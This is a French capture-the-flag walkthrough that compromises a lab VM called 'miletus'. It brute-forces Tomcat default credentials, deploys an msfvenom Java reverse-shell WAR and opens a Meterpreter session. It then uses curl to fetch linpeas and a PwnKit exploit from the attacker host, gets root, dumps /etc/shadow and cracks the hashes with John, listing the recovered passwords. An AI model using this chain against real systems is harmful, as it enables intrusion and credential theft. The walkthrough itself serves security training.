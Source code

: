1.  <ins>Énumération</ins>

👁️ **Nmap & Masscan**

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $sudo sh massap.sh
Entrer une IP: 192.168.56.29
Entrer un rate: 1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2025-01-13 18:15:32 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 19:18 CET           
NSE: Loaded 150 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:18
Completed NSE at 19:18, 10.02s elapsed
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
Initiating ARP Ping Scan at 19:18
Scanning 192.168.56.29 [1 port]
Completed ARP Ping Scan at 19:18, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:18
Completed Parallel DNS resolution of 1 host. at 19:18, 0.00s elapsed
Initiating SYN Stealth Scan at 19:18
Scanning 192.168.56.29 [2 ports]
Discovered open port 22/tcp on 192.168.56.29
Discovered open port 8080/tcp on 192.168.56.29
```

&nbsp;

<span style="color: #dddddd;">💥</span> **Metasploit - tomcat**

Brute force avec une wordlist d’utilisateur et mot de passe par défaut

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> run

[+] 192.168.56.29:8080 - Login Successful: tomcat:role1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> 
```

&nbsp;

<ins>2.Exploitation</ins>

**<span style="color: #dddddd;"><span style="color: #dddddd;">👻</span></span> MSFvenom**

Création d’un `reverse shell` en java

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.56.104 LPORT=4444 -f war > revshelll.war
Payload size: 6214 bytes
Final size of war file: 6214 bytes
```

&nbsp;

**💥 Metasploit - meterpreter**

Ecoute du port `4444` pour obtenir le revershell

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 192.168.56.104:4444 
[*] Sending stage (58037 bytes) to 192.168.56.29
[*] Meterpreter session 1 opened (192.168.56.104:4444 -> 192.168.56.29:60090) at 2025-01-13 19:59:11 +0100

(Meterpreter 1)(/) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> Linpeas**

Téléchargement depuis ma machine le script `bash`

```
(Meterpreter 1)(/) > cd /tmp
(Meterpreter 1)(/tmp) > shell
Process 3 created.
Channel 5 created.
bash -i
tomcat@miletus:/tmp$
tomcat@miletus:/tmp$ curl -O 192.168.56.104:8181/linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  828k  100  828k    0     0  38.5M      0 --:--:-- --:--:-- --:--:-- 38.5M
```

&nbsp;

Exploit potentiel d’élévation de privilège

```
tomcat@miletus:/tmp$ sh linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

&nbsp;

**<span style="color: #dddddd;">💀</span> Exploit PwnKit**

Test de l’exploit

```
tomcat@miletus:/tmp$ curl -O 192.168.56.104:8181/PwnKit
curl -O 192.168.56.104:8181/PwnKit
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 18040  100 18040    0     0  1601k      0 --:--:-- --:--:-- --:--:-- 1601k
tomcat@miletus:/tmp$ ./PwnKit
./PwnKit
id
uid=0(root) gid=0(root) groups=0(root),999(tomcat)
bash -i
root@miletus:/tmp# 
```

&nbsp;

Dump des hash utilisateur du fichier `shadow`

```
root@miletus:/tmp# cat /etc/shadow
cat /etc/shadow
root:$1$root$QBgvNQo1oG6uBsRhpHVcF0:18854:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
uuidd:*:18480:0:99999:7:::
dnsmasq:*:18480:0:99999:7:::
landscape:*:18480:0:99999:7:::
pollinate:*:18480:0:99999:7:::
sshd:*:18854:0:99999:7:::
thales:$6$Y9smI36b$guxECvhWSBfjNVrX4s6GmgZEUOWZ.jNJBcn6j2aera6OgzX87IfNz9Fz1auf3tUzylJrrw4nHt5vEQwGRMYG0/:18855:0:99999:7:::
tomcat:!:18854::::::
```

&nbsp;

**🧨 JohnTheRipper**

Crack du hash de l’user `thales` & `root`

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vodka06          (thales)     
1g 0:00:12:58 DONE (2025-01-13 21:21) 0.001284g/s 3673p/s 3673c/s 3673C/s voezz..vodiensex
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john --show thales
thales:vodka06:18855:0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --wordlist=rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:04 6.22% (ETA: 21:27:20) 0g/s 237808p/s 237808c/s 237808C/s belatz..beckiere
ghost2000        (root)     
1g 0:00:00:30 DONE (2025-01-13 21:26) 0.03293g/s 255481p/s 255481c/s 255481C/s ghostgfb..ghorazz
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --show
root:ghost2000:18854:0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

Cred trouver

| User | Password |
| --- | --- |
| thales | vodka06 |
| root | ghost2000 |
